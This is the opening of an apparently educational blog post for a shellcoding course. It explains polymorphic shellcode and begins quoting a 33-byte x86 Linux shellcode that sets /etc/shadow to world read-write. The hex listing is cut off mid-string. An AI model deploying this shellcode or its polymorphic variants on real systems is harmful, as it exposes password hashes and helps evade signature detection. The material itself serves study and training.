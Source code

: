 ```yaml
---
layout: single
title: SLAE Assignment 6 -- Polymorphic Shellcode
date: 2019-5-13
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - shellcoding
  - MSF
  - polymorphic
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

Assignment 6 is to create polymorphic versions of three separate shellcodes from [shell-storm](http://shell-storm.org/shellcode/). According to the [Polymorphic code](https://en.wikipedia.org/wiki/Polymorphic_code) Wikipedia entry, polymorphic code is "code that uses a polymorphic engine to mutate while keeping the original algorithm intact. That is, the code changes itself each time it runs, but the function of the code (its semantics) will not change at all. For example, 1+3 and 6-2 both achieve the same result while using different values and operations." We will not be using a polymorphic engine, and will instead be changing the shellcode manually. 

Our goal is to not increase the size of the shellcode by more than 50%.

The format of these posts will be me posting the assembly of the original shellcode, along with its author and a link, and then posting my polymorphic version below with major changes commented. Let's begin!

## Shellcode 1 `chmod(/etc/shadow, 0666) & exit()`

This shellcode was written by ka0x, and is located [here](http://shell-storm.org/shellcode/files/shellcode-556.php). This shellcode will change file permissions on `/etc/shadow` to `rw` for everyone and then call `exit()`.

**Size: 33 Bytes**

```c
#include <stdio.h>
 
/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009
 
    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!
 
*/
 
int main()
{
 
    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
```